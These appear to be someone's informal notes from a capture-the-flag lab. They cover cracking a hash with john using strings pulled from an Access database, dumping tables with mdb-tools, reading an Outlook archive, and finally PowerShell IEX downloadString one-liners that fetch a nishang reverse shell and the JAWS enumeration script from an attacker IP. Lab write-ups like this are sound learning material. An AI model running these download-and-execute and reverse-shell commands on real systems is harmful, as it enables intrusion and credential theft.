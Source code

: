 ```
strings -n 8 backup.mdb | sort -u > ../Engineer/wordlist
```
remove anything thats not 8 characters
- then we try to crack it with it
```
john Access\ Control.hash --wordlist=wordlist

john Access\ Control.hash --show
```
- or using mdb-tools
```
mbd-sql backup.mdb
list tables
go
```
or do and it gives us the same thing
```
mdb-tables backup.mdb
```
- then we will do
```
for i in $(mdb-tables backup.mdb); do echo $i; done
```
- then we can do 
```
mkdir tables
for i in $(mdb-tables ackup.mdb); do mdb-export backup.mdb $i > tables/$i; done
```
then we can pick which table we want to look at
- we can do
```
wc -l * | sort -n
```

sort -n to tell it numbers then we ignore everything that is 1 like cause that is listing the columns of the table
- so now we can just do 
```
cat auth_user
```
- if we do file on the pst file, we will seee it is an outlook email folder
- we can do 
```
readpst file.pst
```
- then it ocnverted into an mbox file
- if we
```
less file.mbox
```
we can read the emails from it
- we can do 
```
echo securitury:password
```
it will be in our history so then if we do ctrl+r 4C, we can see the password (cause the password contained 4C)
- If we do `powershell` and we see it runs, copy the Invoke-PowerShellTCP.ps1 from nishang to the directory(change your IP), then we spin up a server, setup nc
```
powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3:8000/nishang.ps1')
```
- we can alsoretrive JAWS an enumeration tool when we get our shell
```
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3:8000/jaws-enum.ps1')
```
